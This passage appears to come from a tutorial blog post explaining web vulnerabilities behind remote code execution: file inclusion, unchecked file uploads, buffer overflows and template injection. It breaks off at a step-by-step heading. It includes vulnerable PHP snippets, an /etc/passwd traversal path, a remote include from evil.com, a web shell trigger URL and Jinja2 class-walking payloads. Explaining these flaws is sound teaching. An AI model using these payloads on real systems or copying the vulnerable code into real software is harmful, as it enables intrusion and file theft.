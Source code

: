 ## File Inclusion Vulnerabilities (LFI & RFI)

![File Inclusion Vulnerabilities](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/i8t8lg9q3yny4zchgjqq.png align="left")

When applications dynamically include files based on user input:

```php
<?php include($_GET['page'].".php"); ?>
```

Attackers can exploit this for **Local File Inclusion** (`../../etc/passwd`) or **Remote File Inclusion** ([`http://evil.com/shell.txt`](http://evil.com/shell.txt)).

---

## File Upload Vulnerabilities

Unvalidated file uploads allow attackers to deploy malicious scripts:

```php
move_uploaded_file($_FILES['file']['tmp_name'], "uploads/".$_FILES['file']['name']);
```

If `shell.php` is uploaded, it can be triggered with:  
[`example.com/uploads/shell.php?cmd=ls`](http://example.com/uploads/shell.php?cmd=ls)

---

## Buffer Overflow: Old But Gold

Often seen in native-code applications, buffer overflows let attackers overwrite memory—including return addresses—to hijack control flow and run injected shellcode.

Though rare in high-level web frameworks, these remain relevant in **embedded web servers**, **C/C++ backends**, or **IoT admin panels**.

---

## Server-Side Template Injection (SSTI)

![Server-Side Template Injection](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/tnlkymfi01v5lpouobbh.png align="left")

Popular in Python’s Jinja2 or Ruby’s ERB, SSTI occurs when user input is embedded in templates without sanitization:

```python
template = Template(user_input)
```

An attacker can inject `{{config.items()}}` or worse, `{{().__class__.__bases__[0].__subclasses__()}}`.

---

## **How Hackers Exploit RCE (Step-by-Step)**
